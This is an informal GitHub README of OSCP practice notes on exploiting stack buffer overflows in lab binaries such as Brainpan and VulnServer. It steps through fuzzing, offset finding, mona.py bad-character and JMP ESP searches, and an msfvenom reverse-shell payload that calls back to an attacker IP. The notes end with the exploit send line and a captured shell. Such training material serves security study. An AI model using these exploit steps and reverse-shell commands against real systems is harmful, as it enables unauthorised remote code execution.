 # OSCP-BUFFER-OVERFLOW-PREP
This Repositry has my own practice notes of Buffer overflow Vulnrable Machine in easy,Beginer way.Please make sure to check every file so that it will be easy to understand how buffer overflow work and why you'll be learning => Fuzzing,Crashing,building simple script,finding badchar,using mona.py,genrating shell code.....
and more.

If You have fear of buffer overflow, then i'll say bro just chill it is easy. Make some practice.
you have to follow som steps to get the shell of victim host.
Brainpain,VulnServer,Ftp,Buffer Overflow prep from Tryhack me root by tib3rius sir.....and more comming soon
Be Connected Thank you!!


The very firs step is to getting the crash byte after knowing the host and port,vuln param 
of the server.....

Part 1

    Fuzzing the service parameter and getting the crash byte
    Generating the pattern
    Finding the correct offset where the byte crashes with the help of (EIP)

Part 2

    Finding the bad character with mona.py, and comparing bad character strings with mona.py
    Finding return address (JMP ESP) with mona.py

Part 3

    Setting breakpoint to verify RETURN address is correct or not
    Creating reverse shell with the help of msfvenom
    Adding NOP’s to the script
    Getting shell





1)So for the Any binary we have to fuzz from 100 to Untill crash the program,
   
    To do so first we have to find out which input parameter of the program is vulnrable to buffur overflow (Note this will be given).
    Then find out the crash byte of the program by fuzzing the parameter(Fuzzing just mean to send the payload again and again to crash the program).
 
   

2)Creating offset value. with msf 
     
     > /usr/bin/msf-pattern_create -l 3000
    where 3000 is Crash byte of the program when send Note Down the eip (Make sure to verify once again by restarting the immunity and this time send 'A'*crashbyte and          'B'*4 after the crashing   again you'll be able to see the 42424242 in EIP  )
 
   After getting the crash byte we have to control the intruction pointer
   to do this we'll use the msf venome 

3)Since we've the EIP adress where program crashed we'll genrate offset to get the exact crash byte where prgram crashed.

    /usr/bin/msf-pattern_offset -l 3000 -q 35724134 (where 35724134 value of eip)
    output- [*] Exact match at offset 524 


4)After getting the offset value wee need to perform the overflow with some more thing 
     
     now we have offset=524
     eip="B" * 4 (this will always contain the eip address after crashing the program as 42424242 whic is hex of B )
     shellcode= "C"* 400 (this is the space where the stack in buffer fill with  shell code )

5)Creating the working dir in im-debug
    
     '!mona config -set workingfolder c:\logs\%p' 

 Now next is to finding the bad char with the help of all possible hex

6)To do this we have to create an array with mona.py to compair with out paylod

    !mona bytearray -b '\x00'
    send the payload 

7)Now we have to verify if ther's any badchar....
    
    !mona compare -f C:\logs\brainpan\bytearray.bin -a 005FF910
    if the result is normal then ther's only one badchar  ecept: "/x00"

   Now we have to find the jump esp location 

8)Check if there is any module that is vulnrable and false by os
     
     !mona modules 
     ther's a module brainpain.exe

9)To get the jump statment have to perform this command
    
    !mona find -s "\xff\xe4" -m baianpan.exe
    this will retun the address of jump eip
    save the jump eip 311712f3 set this eip in payload as
    eip=eip= '\xf3\x12\x17\x31'
   
 Or you can get the jump stack pointer location by using this mathod too
    
    !mona jmp -r esp -cpb "\x00\x8c\xae\xbe\xfb"   #where '\x00...' value is bad char value..
    
    after putting this command immunity will pop a screen where the jump satack pointer location will be written like:
     625011af   ..........here will be module name...........
     
    jumpesp="\xaf\x11\x50\x62"   (this is the  little-endian form)


10)Setting the break point to check does it working or not ('this step is not necessary to perform you can jump to genrating the shell code')
    
     bp 0x311712f3
     to verify the break point is set view>view breakpoint>

11)Now set the  eip to  and try run again the payload 
    
    this will pass the program and jump to our brekpoint now 
    when resume the program it will retrun to shellcode that we given as payld

12)Creating the reverse shell code with the help of the msfvenome
    
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.132 LPORT=1234 -b '\x00' -f c

    where(-b is bad character and -f c is the revershell in c language

13)And add the nops valu (I'm using this because maybe control jump by leaving 8 or 16 bytes after the shell code)
    
    nops='\x90' * 20
    final command to send will be look like ==> s.send('OVERFLOW7 ' + buffer + jumpesp + nops + shellcode +'\r\n')

15)After the sending the payload (make sure to satart nc to listen )it might be the im_debug will pause so we have to tap on play again .....boom we got the shell

C:\Users\Saimson\Downloads>

C:\Users\Saimson\Downloads>whoami
whoami
desktop-hup6j62\saimson 


